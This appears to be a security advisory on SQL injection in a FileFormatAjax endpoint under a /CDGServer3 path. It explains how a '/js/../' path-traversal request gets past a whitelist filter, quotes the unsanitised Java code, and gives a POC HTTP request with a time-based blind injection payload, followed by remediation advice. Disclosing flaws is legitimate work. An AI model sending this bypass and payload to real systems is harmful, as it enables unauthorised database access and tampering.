


# Vulnerability Report

## Vulnerability Type

SQL Injection

## Vulnerability Description

The `fileFormatId` parameter in the `FileFormatAjax` interface is not properly validated and sanitized, leading to a SQL injection vulnerability. An attacker can craft a malicious `fileFormatId` parameter to execute arbitrary SQL queries, potentially accessing or modifying sensitive information in the database.

## Filter Bypass

```java
public class RootSecurityFilter implements Filter {
    private List<String> whiteList = Arrays.asList("/index.jsp", "/index_en.jsp", "/index_tai.jsp", "/images/welcomebg.jpg", "/images/welcome_button_login1.jpg", "/images/welcome_button_login.jpg", "/images/welcome_button_help1.jpg", "/images/welcome_button_help.jpg", "/images/welcome_button_config1.jpg", "/images/welcome_button_config.jpg", "/images/zh/welcomebg.jpg", "/images/zh/welcome_button_login1.jpg", "/images/zh/welcome_button_login.jpg", "/images/zh/welcome_button_help1.jpg", "/images/zh/welcome_button_help.jpg", "/images/zh/welcome_button_config1.jpg", "/images/zh/welcome_button_config.jpg", "/images/eh/welcomebg.jpg", "/images/eh/welcome_button_login1.jpg", "/images/eh/welcome_button_login.jpg", "/images/eh/welcome_button_help1.jpg", "/images/eh/welcome_button_help.jpg", "/images/eh/welcome_button_config1.jpg", "/images/eh/welcome_button_config.jpg","/js");

    public RootSecurityFilter() {
    }

    public void init(FilterConfig filterConfig) throws ServletException {
    }

    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
        HttpServletRequest httpRequest = (HttpServletRequest)request;
        HttpServletResponse httpResponse = (HttpServletResponse)response;
        String servletPath = httpRequest.getServletPath();
        if (this.whiteList.contains(servletPath)) {
            chain.doFilter(request, response);
        } else {
            httpResponse.sendError(403);
        }

    }

    public void destroy() {
    }
}
```

## sqli

```java
	String fileFormatId = request.getParameter("fileFormatId");
	if (fileFormatId == null || "".equals(fileFormatId.trim())) {
		response.sendRedirect("../loginExpire.jsp");
		return;
	}
	String curpage = request.getParameter("curPage");
	FlowDao dao = new FlowDao();
	Flow flow = dao.getAppById(fileFormatId);
	if (flow == null) {
		response.sendRedirect("../loginExpire.jsp");
		return;
	}
	List<FlowDetail> flowDetails = dao.getAppDetailById(fileFormatId);
```


## POC

An attacker can test the vulnerability using the following POC:

```
POST /CDGServer3/js/../FileFormatAjax HTTP/1.1
Host: your-ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Content-Type: application/x-www-form-urlencoded

command=delFileFormat&fileFormatId=-1'waitfor delay '0:0:5'--
```

## Impact Scope

This vulnerability may affect all functionalities that use the `FileFormatAjax` interface and allow user submission of the `fileFormatId` parameter.

## Remediation Suggestions

1. Strictly validate and sanitize the user input for the `fileFormatId` parameter to ensure it contains only legitimate values.
2. Use prepared statements to execute database queries to prevent SQL injection attacks.
3. Conduct regular security audits and code reviews to identify and remediate potential security vulnerabilities.
